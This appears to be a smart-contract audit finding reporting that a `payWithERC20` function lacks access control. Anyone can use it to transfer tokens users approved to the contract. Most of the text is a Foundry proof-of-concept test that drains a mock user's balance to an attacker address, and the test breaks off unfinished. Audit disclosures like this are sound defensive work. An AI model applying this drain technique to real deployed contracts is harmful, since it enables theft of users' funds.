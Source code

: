 N/a

### Attack Path

- User approves the contract to spend any ERC20 token.
If a user approves the contract for any ERC20 token, attacker calls `payWithERC20` and can transfer those tokens without additional checks when called directly.



### Impact

**Funds can be drained**: Users could lose funds for any approved ERC20 token, even if the protocol has disabled the token via `removePaymentAddress`.

### PoC

**Proof of Concept:**

***Conditions:***
- User approves the contract to spend any ERC20 token.
- The attack works with any ERC20 token the contract is approved for, not just those in `paymentAddressEnableMp`.



The following PoC test demonstrates the vulnerability. Add this test to the test suite in BluePrintV5.t.sol:

```javascript
function test_canDrainFunds() public {
        // Define attacker address
        address attacker = address(0xDEAD);

        // Mint tokens to the test account (simulating a user)
        uint256 userFunds = 100 * 10 ** 18;
        mockToken.mint(address(this), userFunds);

        // Log initial balances
        console.log("Initial user balance:", mockToken.balanceOf(address(this)));
        console.log("Initial attacker balance:", mockToken.balanceOf(attacker));

        // Verify initial balances
        assertEq(mockToken.balanceOf(address(this)), userFunds, "User should have initial funds");
        assertEq(mockToken.balanceOf(attacker), 0, "Attacker should start with zero balance");

        // User approves the Blueprint contract to spend their tokens (common user action)
        mockToken.approve(address(blueprint), userFunds);

        // Log allowance
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        console.log("Allowance granted to Blueprint:", allowance);

        // Verify approval
        assertEq(allowance, userFunds, "Blueprint should have full allowance");

        // Attacker calls payWithERC20 directly to drain funds
        vm.prank(attacker); // Simulate attacker calling the function
        blueprint.payWithERC20(address(mockToken), userFunds, address(this), attacker);

        // Log balances after the exploit
        console.log("User balance after exploit:", mockToken.balanceOf(address(this)));
        console.log("Attacker balance after exploit:", mockToken.balanceOf(attacker));

        // Verify funds have been drained
        assertEq(mockToken.balanceOf(address(this)), 0, "User funds should be drained");
```